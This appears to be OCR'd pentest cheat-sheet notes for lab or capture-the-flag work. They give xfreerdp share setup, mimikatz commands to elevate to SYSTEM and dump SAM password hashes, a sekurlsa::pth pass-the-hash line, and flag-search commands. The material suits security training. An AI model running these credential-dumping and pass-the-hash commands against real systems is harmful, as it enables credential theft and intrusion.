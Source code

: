 # launch an rdp GUI session via xfreerdp with a share option and clipboard access for file transfer ease/post exploitation (When creating a shared drive, this can be accessed either from the command line : cd \\tsclient\share )
xfreerdp /v:IP /u:pawnd /p:pawnd +clipboard /dynamic-resolution /drive:/usr/share/windows-resources/binaries,share


# now lets dump hashes with mimikatz  via method below using our xfreerdp session with share enabled and clipboard from above. Open command prompt as administrator and run command
\\tsclient\share\

# we next need to give ourselves the Debug privilege and elevate our integrity to SYSTEM level. This can be done with the following commands:
privilege::debug
token::elevate

# lets redirect mimikatz output to a log in \temp dir that is an a format for copy and paste 
log C:\Windows\Temp\mimikatz_dump.log

# We can now dump all of the SAM local password hashes using command below and then naviagate to \Temp dir to copy output
lsadump::sam

# passing the hash with mimikatz.exe
sekurlsa::pth /user:Administrator /domain:dollarcorp.moneycorp.local /ntlm:<ntlmhash> /run:powershell.exe

##!


# look for flags commands via linux
find / -type f -name flag.txt* 2>/dev/null;
find / -type f -name DANTE{* 2>/dev/null;

# look for flags commands via windows
cd C:\
dir flag.txt /s /p
